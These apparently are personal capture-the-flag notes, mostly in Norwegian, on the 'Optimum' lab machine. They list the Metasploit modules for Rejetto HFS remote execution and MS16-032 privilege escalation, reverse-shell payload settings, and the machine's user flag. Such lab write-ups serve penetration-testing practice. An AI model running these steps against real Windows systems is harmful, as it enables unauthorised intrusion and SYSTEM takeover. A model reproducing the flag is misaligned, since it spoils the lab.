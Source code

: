 ## optimum 10.10.10.8

windows server 2012 x64

nmap port 80

hfs 2.3 server. finnes exploit

kjørte i metasploit exploit/windows/http/rejetto\_hfs\_exec

sett srvhost til samme som lhost men ikke srvport

husk å sette lhost også

`use post/multi/manage/shell_to_meterpreter`

user.txt **d0c39409d7b994a9a1389ebf38ef5f73**

MS16-032 SYSTEM Privilege Escalation

prøvd å laste opp ps1-script og får kjørt det, men prosessen ligger i bakgrunnen.- sjekk ps kommando

må finne en måte å få reverse shell fra powershellet

`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

tror denne er riktig.

`use post/multi/recon/local_exploit_suggester`**  **

```
use exploit/windows/local/payload_inject
set payload windows/powershell_reverse_tcp
```

Import-Module ./lol.ps1

Invoke-MS16-032

gjøre fra 32 til 64 bit shell

`use windows/local/payload_inject`

`set payload windows/x64/meterpreter/reverse_tcp`

